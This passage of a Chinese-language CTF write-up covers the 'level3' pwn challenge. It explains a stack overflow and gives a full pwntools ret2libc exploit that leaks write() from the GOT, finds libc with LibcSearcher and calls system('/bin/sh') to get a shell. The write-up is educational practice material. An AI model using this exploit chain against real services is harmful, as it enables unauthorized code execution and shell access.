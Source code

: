 存在120字节的溢出

由于不存在可以直接getshell的gadget，故考虑ret2libc：先泄漏出write函数真实地址后使用LibcSearcher查找libc版本后执行`system("/bin/sh")`即可

构造exp如下：

```
from pwn import *
from LibcSearcher import *
p = process('./level3') 
e = ELF('./level3')
offset = 0x88

payload1 = b'A' * offset + p32(0xdeadbeef) + p32(e.plt['write']) + p32(e.sym['main']) + p32(1) + p32(e.got['write']) + p32(4)

p.recv()
p.send(payload1)
write_addr = u32(p.recv(4))

libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')

payload2 = b'A'*offset + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr)

p.sendline(payload2)
p.interactive() 
```

运行即得flag

![](img/bedc809160a2454c5afdd3239b8422ce.png)

> 感觉ret2libc的题基本都大同小异啊…

# 0x021.[BJDCTF 2nd]test - Linux基础知识
